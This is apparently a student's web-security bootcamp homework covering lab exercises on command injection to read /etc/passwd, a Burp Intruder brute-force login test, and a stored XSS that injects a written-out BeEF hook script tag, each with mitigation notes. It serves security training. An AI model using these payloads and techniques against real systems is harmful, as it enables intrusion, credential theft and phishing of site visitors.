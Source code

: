 # Unit 15 Homework

---

## Web Application 1: *Your Wish is My Command Injection*

Now that you have determined that Replicants new application is vulnerable to command injection, you are tasked with using the dot-dot-slash method to design two payloads that will display the contents of the following files:
   
   - `/etc/passwd`
   
   - `/etc/hosts`
  
   **Hint:** Try testing out a command directly on the command line to help design your payload.

**Deliverable**: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies. 

![](Images/cmd_injection.1.png)
![](Images/cmd_injection.2.png)

**Mitigation:**  Sanitize user input. Limit the input to 15 characters and only accept something that resembles an IPv4 address. 

## Web Application 2: *A Brute Force to Be Reckoned With*

Years ago, Replicants had a systems breach and several administrators passwords were stolen by a malicious hacker. The malicious hacker was only able to capture a list of passwords, not the associated accounts' usernames. Your manager is concerned that one of the administrators that accesses this new web application is using one of these compromised passwords. Therefore, there is a risk that the malicious hacker can use these passwords to access an administrator's account and view confidential data.

   - Use the web application tool **Burp Suite**, specifically the **Burp Suite Intruder** feature, to determine if any of the administrator accounts are vulnerable to a brute force attack on this web application. 

   - You've been provided with a list of administrators and the breached passwords:

     - List of Administrators
     - Breached list of Passwords

**Deliverable**: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies.

**Mitigation:**  Recognize and slow down repeated signon attempts from the same IP (regardless if it's for the same user or not).  Add a captcha between login attempts. If not already in use, consider adding key lengthening (e.g. PBKDF2) or increasing the iteration count. While not strictly an anti-brute force measure, it'll take a little longer on the server to validate each login attempt. After a certain threshold, refuse to accept additional attempts from the same IP (e.g. fail2ban).

### Web Application 3: *Where's the BeEF?*

Now that you know how to use the BeEF tool, you'll use it to test the Replicants web application. You are tasked with using a stored XSS attack to inject a BeEF hook into Replicants' main website.

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

   -  When you attempt to inject this payload,  you will encounter a client-side limitation that will not allow you to enter the whole payload. You will need to find away around this limitation.    
      
      - **Hint:** Try right-clicking and selecting "Inspecting the Element".
    
   - Once you are able to hook into Replicants website, attempt a couple BeEF exploits. Some that work well include:
     
     - Social Engineering >> Pretty Theft
     ![](Images/beef1a.png)
     
     - Social Engineering >> Fake Notification Bar
    ![](Images/beef3.png)

     - Host >> Get Geolocation (Third Party)
    ![](Images/beef5.png)  
    `Redacted some detail.`

**Deliverable**: Take a screen shot confirming that this exploit was successfully executed and provide 2-3 sentences outlining mitigation strategies.

**Mitigation:**  Sanitize user input. Limit which HTML tags are permitted (if any).  The HTML code for the textarea: 
`<textarea name="mtxMessage" cols="50" rows="3" maxlength="50"></textarea>` 

intends to limit the input to 50 characters over 3 lines (rows). With the Inspect Element option, the length was increased to accomodate the XSS payload.  Another migitation option is to truncate strings to 50 characters.

---

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
